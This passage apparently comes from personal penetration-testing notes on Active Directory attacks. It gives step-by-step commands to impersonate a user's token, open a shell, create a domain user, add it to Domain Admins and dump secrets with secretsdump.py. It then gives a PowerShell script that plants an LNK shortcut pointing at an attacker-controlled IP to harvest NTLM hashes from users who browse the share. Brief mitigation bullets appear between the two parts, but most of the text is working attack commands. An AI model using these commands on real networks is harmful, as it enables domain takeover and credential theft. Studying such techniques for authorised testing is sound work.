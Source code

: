 At this point we can impersonate the token of a user:
```bash
impersonate_token DOMAIN\\username
```
- at this point we are impersonating it
- ![[Pasted image 20241220123205.png]]


Now with this we can obtain a shell:
```bash
shell
```


At this point we can add a new user to the Active Directory system:
```bash
net user /add username Password /domain
```
- `/domain` here must stay domain in lower 
- ![[Pasted image 20241220123605.png]]

At this point we need to add the new user in the admin group:
```bash
group "Domain Admins" username /ADD /DOMAIN
```
- `/DOMAIN` must remain DOMAIN
- ![[Pasted image 20241220123549.png]]


At this point we have the acess as admin to the AD.


Now we can test it on the terminal:
```bash
secretsdump.py DOMAIN/username:'PASSWORD'@DOMAIN_CONTROLLER_IP
```
- ![[Pasted image 20241220123720.png]]



## Mitigation
The idea to mitigate this attack is to:
- limit user/group token creation
- use account tiering 
- use local admin restriction

 
# LNK file attack

The idea is to store a file into shared folders in order to get some results.


The first way to do that is to create a file by our own with the using of **==elevated (admin) powershell==** (if we have access to the file share):
```powershell
$objShell = New-Object -ComObject WScript.shell 
$lnk = $objShell.CreateShortcut("C:\test.lnk") 
$lnk.TargetPath = "\\OUR_MACHINE_IP\@test.png" 
$lnk.WindowStyle = 1 
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3" 
$lnk.Description = "Test" 
$lnk.HotKey = "Ctrl+Alt+T" 
$lnk.Save()
```
- we create this `test.lnk` file that tries to resole a `png` file pointing back to our attack machine 
- the resolving will send us the request with the hashes
- this will save the file into `C` drive
